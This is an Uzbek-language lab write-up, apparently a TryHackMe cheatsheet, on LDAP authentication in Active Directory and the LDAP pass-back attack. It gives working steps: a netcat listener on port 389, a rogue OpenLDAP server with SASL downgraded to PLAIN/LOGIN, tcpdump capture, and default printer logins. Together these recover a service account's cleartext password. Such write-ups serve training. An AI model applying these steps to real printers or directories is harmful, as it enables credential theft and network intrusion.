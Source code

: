 **LDAP**

Ilovalarda Active Directory (AD) autentifikatsiyasi uchun yana bir usul bu **LDAP (Lightweight Directory Access Protocol)** autentifikatsiyasidir. LDAP autentifikatsiyasi NTLM autentifikatsiyasiga o‘xshaydi. Biroq, LDAP autentifikatsiyasida ilova foydalanuvchi ma’lumotlarini bevosita tekshiradi. Ilovaning o‘zida LDAP orqali so‘rov yuborish va keyin AD foydalanuvchisini tekshirish uchun bir juft AD hisob ma’lumotlari bo‘ladi.

LDAP autentifikatsiyasi odatda uchinchi tomon (ya’ni Microsoft bo‘lmagan) ilovalari tomonidan AD bilan integratsiya qilishda keng qo‘llaniladi. Bunday ilova va tizimlarga quyidagilar kiradi:

* Gitlab
* Jenkins
* Maxsus ishlab chiqilgan veb-ilovalar
* Printerlar
* VPNlar

Agar bu ilova yoki xizmatlardan birortasi internetga ochiq bo‘lsa, NTLM asosidagi tizimlarga qarshi qo‘llaniladigan hujumlar bu yerda ham amalga oshirilishi mumkin. Biroq, LDAP autentifikatsiyasi AD bilan ishlash uchun xizmatga AD hisob ma’lumotlari kerak bo‘lganligi sababli, bu holat qo‘shimcha hujum imkoniyatlarini yaratadi. Ya’ni, xizmatda ishlatiladigan AD hisob ma’lumotlarini qo‘lga kiritish orqali AD tizimiga autentifikatsiyalangan kirish imkoniyatini qo‘lga kiritish mumkin bo‘ladi.

Quyida LDAP orqali autentifikatsiya jarayoni ko‘rsatilgan:
*(rasmga ishora qilinmoqda)*

Agar to‘g‘ri serverga kirish imkoniyatiga ega bo‘lsak, masalan Gitlab serveri, unda ushbu AD hisob ma’lumotlarini tiklash ba’zida oddiygina konfiguratsiya fayllarini o‘qish orqali amalga oshiriladi. Bu hisob ma’lumotlari ko‘pincha konfiguratsiya fayllarida oddiy matn ko‘rinishida saqlanadi, chunki xavfsizlik modeli ularni yashirish o‘rniga server xavfsizligiga tayanadi.

![LDAP](https://github.com/akhatkulov/cheatsheets-for-windows/blob/main/Breaching%20Active%20Directory/LDAP%20Bind%20Credentials/d2f78ae2b44ef76453a80144dac86b4e.png?raw=true)

#### **LDAP Pass-back hujumi nima?**

LDAP autentifikatsiya mexanizmlariga qarshi amalga oshirilishi mumkin bo‘lgan juda qiziqarli hujum turlaridan biri bu — **LDAP Pass-back hujumi** deb ataladi. Bu hujum turli tarmoq qurilmalariga, masalan, printerlarga, foydalanuvchining ichki tarmoqqa kirish huquqi bo‘lsa (masalan, majlis xonasiga ruxsatsiz qurilma ulash orqali), keng qo‘llaniladi.

---

#### **LDAP Pass-back hujumi qanday ishlaydi?**

Agar biz biror qurilmaning, masalan printerning LDAP konfiguratsiyasiga kirish imkoniyatiga ega bo‘lsak, ushbu hujumni amalga oshirishimiz mumkin. Bu odatda printerning veb-interfeysi orqali amalga oshiriladi. Ko‘pincha bu interfeyslarda parol va loginlar `admin:admin` yoki `admin:password` tarzida standart holatda qoldirilgan bo‘ladi.

Bunday holatda, LDAP parolini interfeys orqali bevosita ko‘ra olmaymiz, chunki parol yashiringan bo‘ladi. **Ammo** biz LDAP konfiguratsiyasidagi **server IP-manzilini yoki hostname'ni** o‘zgartirishimiz mumkin.

Shunday qilib, **LDAP Pass-back hujumi** quyidagicha ishlaydi:

1. LDAP server IP-manzilini o‘z IP-manzilingizga (VPN IP) o‘zgartirasiz.
2. “Test Settings” (Sozlamalarni sinash) tugmasini bosasiz.
3. Printer sizning qurilmangizga LDAP autentifikatsiyasi qilishga urinadi.
4. Siz bu jarayonni tahlil qilib, **LDAP login ma’lumotlarini tutib olasiz**.

---

#### **LDAP Pass-back hujumini amalga oshirish:**

Bu tarmoqda bitta printer mavjud bo‘lib, uning admin interfeysi parol ham so‘ramaydi. Quyidagi havola orqali uning sozlamalar sahifasiga o‘ting:

🔗 `http://printer.za.tryhackme.com/settings.aspx`

Brauzer inspektsiyasi orqali printer sahifasida parol qaytarilmasligi (ya'ni, brauzerga yuborilmasligi)ni ham ko‘rish mumkin.

---

#### **Sinov: Printerni o‘z IP-manzilingizga bog‘lash**

1. Faqatgina login (username) mavjud, parol esa yashiringan.
2. “Test Settings” tugmasi bosilganda printer AD domen kontrolchisiga (LDAP serverga) autentifikatsiya so‘rovi yuboradi.
3. Biz bu jarayonni ekspluatatsiya qilib, printerni o‘zimizga ulanadigan qilib sozlaymiz.

🧪 **Netcat yordamida sinov**:

LDAP standarti bo‘yicha port: **389**

Quyidagi buyruqni ishga tushiring:

```bash
nc -lvp 389
```

> ⚠️ **Eslatma**: Agar siz TryHackMe AttackBox'dan foydalansangiz, avval `slapd` xizmatini o‘chirishingiz kerak:

```bash
sudo service slapd stop
```

So‘ngra, printer interfeysidagi **Server** oynasiga o‘z IP manzilingizni yozing (VPN IP-manzili: `10.50.x.x` yoki `10.51.x.x` ko‘rinishida bo‘ladi). IP’ni aniqlash uchun:

```bash
ip a
```

---

#### **Kutilayotgan natija:**

Netcat quyidagicha chiqishni ko‘rsatadi:

```bash
[thm@thm]$ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
0?DC?;
?
?x
 objectclass0?supportedCapabilities
```

> Bu yerda printer LDAP autentifikatsiyasini sizga yo‘llagan, lekin **muammo shundaki**, u hali sizga login/parolni yubormadi.

---

#### **Nega bu yetarli emas?**

Printer LDAP autentifikatsiyasining qanday usulini qo‘llashni aniqlash uchun avval **negotiation** (kelishuv) bosqichini boshlaydi. Agar bu usul xavfsiz bo‘lsa, **login va parol tarmoq orqali oddiy matn (plaintext) sifatida uzatilmaydi**.

Ba’zi xavfsiz autentifikatsiya turlarida esa **butunlay hech qanday credential tarmoq orqali yuborilmaydi!**

---


## 🛠 1. **OpenLDAP ni o‘rnatish (Arch Linux)**

Arch Linux’da `openldap` va `ldap-utils` (ya’ni `openldap-clients`) paketlarini o‘rnating:

```bash
sudo pacman -Syu openldap openldap-clients
```

## ⚙️ 2. **LDAP serverni sozlash (rogue server)**

LDAP konfiguratsiyasi fayllarini sozlash uchun quyidagilarni bajaring:

### Slapd xizmatini yoqish va ishga tushurish:

```bash
sudo systemctl enable slapd
sudo systemctl start slapd
```

### `slapd`ni qayta sozlash (Arch’da `dpkg-reconfigure` yo‘q, shuning uchun qo‘lda qilamiz)

LDAP konfiguratsiyasi `/etc/openldap/slapd.d/` yoki `/etc/openldap/slapd.conf` orqali boshqariladi.

Sizga kerak bo‘ladi:

* `dc=za,dc=tryhackme,dc=com` domen sifatida
* `MDB` backend
* `cn=admin,dc=za,dc=tryhackme,dc=com` foydalanuvchi
* oddiy parol (masalan `password11`)

Buni `slapd.conf` orqali qilish mumkin yoki `ldapadd` bilan `.ldif` fayllar yaratib qo‘shish mumkin.

---

## 🔐 3. **LDAP ni zaiflashtirish (authentication downgrade qilish)**

Quyidagi faylni `olcSaslSecProps.ldif` nomi bilan saqlang:

```ldif
# olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

So‘ng quyidagi buyruqni bajaring:

```bash
sudo ldapmodify -Y EXTERNAL -H ldapi:/// -f ./olcSaslSecProps.ldif
sudo systemctl restart slapd
```

---

## ✅ 4. **Sozlamalarni tekshirish**

Yuborilgan autentifikatsiya usullarini tekshirish:

```bash
ldapsearch -H ldap://localhost -x -LLL -s base -b "" supportedSASLMechanisms
```

Kutilgan natija:

```
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

---

## 🧲 5. **Parollarni tutib olish (TCPDump)**

Avval IP manzilingizni toping (masalan: `ip a`):

```bash
ip a
```

So‘ng TCPDump orqali port 389 ni kuzating (interfeys nomi: `enpXsY`, `wlan0`, `eth0` bo‘lishi mumkin):

```bash
sudo tcpdump -SX -i <interface_name> tcp port 389
```

`Test Settings` tugmasini printer sahifasidan ([http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx)) bir necha marta bosing.

Natijada `za.tryhackme.com\svcLDAP` va uning paroli kabi credential’lar ochiq ko‘rinishda TCPDump’da ko‘rinadi.

---

## 🔚 Yakuniy natija:

Siz Active Directory foydalanuvchi ismi va parolini **ochiq matn** ko‘rinishida qo‘lga kiritdingiz:

```
username: za.tryhackme.com\svcLDAP
password: password11 (yoki sizda boshqacha bo‘ladi)
```
